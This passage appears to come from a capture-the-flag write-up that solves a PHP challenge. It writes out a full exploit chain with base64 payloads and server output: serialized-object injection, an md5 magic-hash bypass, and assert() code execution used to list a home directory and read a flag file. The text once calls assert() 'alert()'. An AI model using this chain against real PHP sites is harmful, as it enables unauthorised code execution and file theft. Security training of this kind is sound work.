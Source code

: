 We can then replace the parameters in the code and execute this using PHP to get the payload and send i to the site. When the parameter 'a' object is unserialized, PHP will automatically call the `__construct` function and assign the parameters that we need, `$password` and `$leetness`. Then the `check_leetness()` function will be executed. To go on, we need to pass the condition `if(md5($this->password) == '0e1337')` This is a known problem of PHP comparison and can be solved by finding a value that when hashed with md5 starts with 0e followed only by digits, see [4] for examples. I used the integer 240610708.

Now we can construct a payload using `AdminPackage(240610708, '1337')` to satisfy the `assert()` and submit it to the site with this URL: http://7y4b2aymlqwmkyuh.onion/?p=21232f297a57a5a743894a0e4a801fc3&a=TzoxMjoiQWRtaW5QYWNrY
WdlIjoyOntzOjg6InBhc3N3b3JkIjtpOjI0MDYxMDcwODtzOjg6ImxlZXRuZXNzIjtzOjQ6IjEzMzciO30=

In the bottom of the HTTP response we get this to prove that it worked:
```
<pre> [+] Is it 1337? -> Yes!</pre>
```

We must now find a way to exploit the `assert()`. Again, some literature helps, see [5]. So `alert()` is like `eval()`, that means we can use some PHP function. I tested with `AdminPackage(240610708, 'phpinfo()')` and it worked. So we have PHP code execution, let's do some file listing until we can list the home directory of pengu using `AdminPackage(240610708, 'var_dump(scandir("/home/pengu/"))')` we get:
```html
[CUT by TROLLI101]
<small>/www/21232f297a57a5a743894a0e4a801fc3.php(10) : assert code:1:</small>
<b>array</b> <i>(size=3)</i>
  0 <font color='#888a85'>=&gt;</font> <small>string</small> <font color='#cc0000'>'.'</font> <i>(length=1)</i>
  1 <font color='#888a85'>=&gt;</font> <small>string</small> <font color='#cc0000'>'..'</font> <i>(length=2)</i>
  2 <font color='#888a85'>=&gt;</font> <small>string</small> <font color='#cc0000'>'7b66a8f1be1f9cff0a19aaf28d0e0396'</font> <i>(length=32)</i>
</pre><pre> [+] Is it 1337? -> Nope!</pre>
[CUT BY TROLLI101]
```

And the final payload looks like `AdminPackage(240610708, 'print(file_get_contents("/home/pengu/7b66a8f1be1f9cff0a19aaf28d0e0396"))')` and it will be serialized to:
```
O:12:"AdminPackage":2:{s:8:"password";i:240610708;s:8:"leetness";s:72:
"print(file_get_contents("/home/pengu/7b66a8f1be1f9cff0a19aaf28d0e0396"))";}
```

And then encoded to:
```
TzoxMjoiQWRtaW5QYWNrYWdlIjoyOntzOjg6InBhc3N3b3JkIjtpOjI0MDYxMDcwODtzOjg6
ImxlZXRuZXNzIjtzOjcyOiJwcmludChmaWxlX2dldF9jb250ZW50cygiL2hvbWUvcGVuZ3Uv
N2I2NmE4ZjFiZTFmOWNmZjBhMTlhYWYyOGQwZTAzOTYiKSkiO30=
```

We can then submit this with the URL: http://7y4b2aymlqwmkyuh.onion/?p=21232f297a57a5a743894a0e4a801fc3&a=TzoxMjoiQWRtaW5QYWNrYWdlIjoyOntzOjg6In
Bhc3N3b3JkIjtpOjI0MDYxMDcwODtzOjg6ImxlZXRuZXNzIjtzOjcyOiJwcmludChmaWxlX2dldF9jb25
0ZW50cygiL2hvbWUvcGVuZ3UvN2I2NmE4ZjFiZTFmOWNmZjBhMTlhYWYyOGQwZTAzOTYiKSkiO30=
